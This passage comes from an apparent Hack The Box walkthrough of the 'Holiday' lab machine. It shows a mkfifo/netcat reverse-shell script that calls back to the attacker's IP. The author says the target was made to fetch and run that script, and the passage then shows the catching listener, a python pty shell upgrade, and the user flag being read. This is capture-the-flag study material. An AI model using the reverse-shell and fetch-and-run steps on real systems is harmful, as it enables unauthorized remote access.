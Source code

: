 Works, so now we need a shell, use one from Pentest Monkey:

```text
root@kali:~/htb/holiday# cat shell
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1234 >/tmp/f
```

First make the box grab the shell script from us:

![burp_wget_shell](/assets/images/2020-06-19-16-31-17.png)

Now get it to run the script using Bash:

![burp_connect_to_shell](/assets/images/2020-06-19-16-31-50.png)

On our waiting NC listener we get a connection:

```text
root@kali:~/htb/holiday# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.25] 57848
/bin/sh: 0: can't access tty; job control turned off
$ whoami
algernon
```

Finally we have a shell, upgrade to a proper tty shell first, then grab the user flag:

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
algernon@holiday:~/app$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/htb/holiday# stty raw -echo

algernon@holiday:~/app$ ls /home/algernon
app  user.txt
algernon@holiday:~/app$ cat /home/algernon/user.txt
<<HIDDEN>>
```
